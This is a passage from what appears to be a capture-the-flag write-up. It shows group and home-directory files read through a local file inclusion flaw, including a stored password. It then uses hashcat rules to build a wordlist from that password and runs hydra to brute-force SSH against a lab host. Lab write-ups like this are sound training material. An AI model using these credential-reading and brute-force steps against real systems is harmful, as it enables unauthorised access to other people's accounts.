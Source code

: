 ```bash
plugdev:x:46:
staff:x:50:
games:x:60:
users:x:100:
nogroup:x:65534:
systemd-journal:x:101:
systemd-network:x:102:
systemd-resolve:x:103:
systemd-timesync:x:104:
crontab:x:105:
messagebus:x:106:
input:x:107:
kvm:x:108:
render:x:109:
syslog:x:110:
tss:x:111:
uuidd:x:112:
tcpdump:x:113:
ssh:x:114:
landscape:x:115:
lxd:x:116:
systemd-coredump:x:999:
blue:x:1000:
red:x:1001:
ssl-cert:x:117:
```

- /home/blue/.bash_history
```bash
echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```

- /home/blue/.reminder
```bash
sup3r_p@s$w0rd!
```


## SSH Bruteforce
1. Located with LFI the bash history for user *blue*
2. First create a file named *.reminder* on our system and fill it with the password we found under */home/blue/.reminder*
	- `sup3r_p@s$w0rd!`
3. According to the history the following command was run in order to generate a *passlist.txt*:
```bash
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```
4. Now we attack ssh with the new list:
```bash
hydra -l blue -P ./passlist.txt ssh://10.10.16.56
```
- *blue:!dr0w$s@p_r3pus*
	- This password is always changing to another from the list need to run hydra each time to check it  when logging in or FORCED out dammit

---